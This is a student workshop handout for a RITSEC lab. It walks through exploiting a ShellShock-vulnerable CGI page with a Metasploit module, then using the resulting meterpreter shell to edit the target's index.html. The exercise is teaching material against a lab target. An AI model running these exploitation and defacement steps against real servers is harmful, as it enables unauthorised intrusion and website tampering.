

# RITSEC Academic Day - ShellShock 

## Setup
- Open 'VMWare Workstation Pro'
- Click on 'Kali Linux 2021' on the left side list of VMs
- Right click again on 'Kali Linux 2021' and click 'Settings'. 

    - Select 'Network Adapter' and change it to 'Bridged'

- Hit the Play Button to start the VM.
    - Username: kali
    - Password: kali

## Viewing the Website
- Click the top left logo to search for firefox.
- Open your browser and head to http://<TARGET_IP>:8080

## Attacking the Box - Commands To Run
- Click the Black Box with the "$_" to open the terminal.

This will open the Metasploit Console.

1. `msfconsole`

Here, you are searching for the shellshock vulnerability to use.

2. `search shellshock`

This is selecting the shellshock exploit.

3. `use 1`

This is seeing the module and payload options that will be configured.

4. `options`

Setting the vulnerable cgi page to utilize.

5. `set targeturi /cgi-bin/vulnerable`

Setting the target hosting the site that we will attack.

6. `set rhosts <TARGET_IP>`

Setting the port the website is being hosted on.

7. `set rport 8080`

Attack the box!

7. `exploit`

## Modifying the Website

With your meterpreter shell, now you can modify the website. 

Most websites by default keep their files in `/var/www`. In our case, the `index.html` file contains the main page of the website. 

Use the `edit /var/www/index.html` command to edit the file. Add your name to the website!

- Once you are in the text editor, press the 'i' key to go into insert mode.
- Use the arrow keys to move down to the < li > section
- Once you add your name, hit the 'ESC' key, type ':wq' and hit 'Enter'

Now visit the website in your browser and see your name publicly hosted on the target site!!
